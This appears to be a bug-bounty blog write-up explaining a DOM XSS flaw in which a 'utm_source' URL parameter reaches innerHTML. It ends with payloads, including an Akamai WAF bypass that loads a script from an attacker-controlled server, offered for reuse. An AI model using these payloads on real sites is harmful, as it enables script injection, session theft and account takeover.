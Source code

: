 # ||||||||||||||||||||||||||||||||||||||||||||||||||


![](https://miro.medium.com/v2/resize:fit:630/1*A5ZgiZJHJWP5k5OFzW_C0A.png)

Figure 1

The vulnerability stems from the mishandling of user inputs retrieved from the URL parameters. The application fetches two parameters, **utm_source,** and **utm_campaign**, using the `window.location.search` function. The parameters are then passed to a `getUrlParamter()`function.

![](https://miro.medium.com/v2/resize:fit:700/1*8l5Guyed_FX9hlPxqCEMtQ.png)

Figure 2

This function aims to extract the value of a specific parameter (in this case, `'utm_source'` or `'utm_campaign'`)from a URL query string and decode it, before returning it, for example, if the URL is something like this [_https://exapmle.com/redact?utm_source=hello_](https://exapmle.com/redact?utm_source=hello&utm_campaign=bye) The below code from Figure 1 will be executed.

> queryString = window.location.search,utm_source = getUrlParameter(‘utm_source’, queryString),

The `getUrlParamter('utm_source', queryString)` function will return the value of the `utm_source` parameter **hello** and will store it in the `utm_source` varaible, same is for the `utm_campaign` parameter.

![](https://miro.medium.com/v2/resize:fit:700/1*jAeudJg6HWSHajhdFvBJqA.png)

Figure 3

In Figure 3, if the `utm_campaign` parameter value is set to “closedDomains”, the application executes a switch case statement based on the value of utm_source. If no matching case is found, the application calls the `brandName()` function with the value of utm_source as a parameter.

![](https://miro.medium.com/v2/resize:fit:675/1*R1kjHm2rEpOr0GpYJ_gh2w.png)

Figure 4

In Figure 4, the `brandName` function is designed to either hide elements with the class `.js-brandname-container` or set the inner HTML of elements with the class `.js-brandname` based on the value of the `brandName` function parameter. If the `brandName` value is set to `false`, it hides the specified elements; otherwise, it sets their inner HTML to the provided value of the `brandName`

As we already know from Figure 3 that we can control the value of the parameter passed to the the function`brandName(utm_source)` with URL parameter `utm_source` , we can now inject HTML tags and potentially execute arbitrary JavaScript code.

Now assesmbling the pieces for the final payload.

> [https://exapmle.com/redact?utm_source=%3ch1%3eHTML_Injection%3c%2fh1%3e&utm_campaign=closedDomains](https://exapmle.com/redact?utm_source=%3Ch1%3EHTML_Injection%3C%2Fh1%3E&utm_campaign=closedDomains)

![](https://miro.medium.com/v2/resize:fit:700/1*HZe-kYQ1kCeVZtQt8sMZXQ.png)

Figure 5

Great, HTML tag created sucessfully, now let’s try for XSS.

> [https://exapmle.com/redact?utm_source=%3cscript%3ealert(1)%3c%2fscript%3e&utm_campaign=closedDomains](https://exapmle.com/redact?utm_source=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&utm_campaign=closedDomains)

![](https://miro.medium.com/v2/resize:fit:700/1*mV_x79IZFIW7FMo99D4plQ.png)

Figure 6

Akamai Firewall came to the rescue, now despite the potential presence of the (WAF), I managed to successfully bypass it to execute the XSS attack, feel free to use this payload.

`> <button style=”color:red” popovertarget=”x” value=”Click me”>Click Me</button><hvita onbeforetoggle=with(document){xx=createElement(‘script’);xx.setAttribute(‘src’,’https://your-server/x.js');body.appendChild(xx)} popover id=x>Hvita</hvita>

Replace the [https://your-server/x.js](https://your-server/x.js) with your own server where you have uploaded the JavaScript file which will execute your payload.

Click on the **Click Me** Button, and there you go.

![](https://miro.medium.com/v2/resize:fit:700/1*MqLdLN6s1LtjrMs4Burt0g.png)

Figure 7

Thank you for Reading.
# ||||||||||||||||||||||||||||||||||||||||||||||||||||||



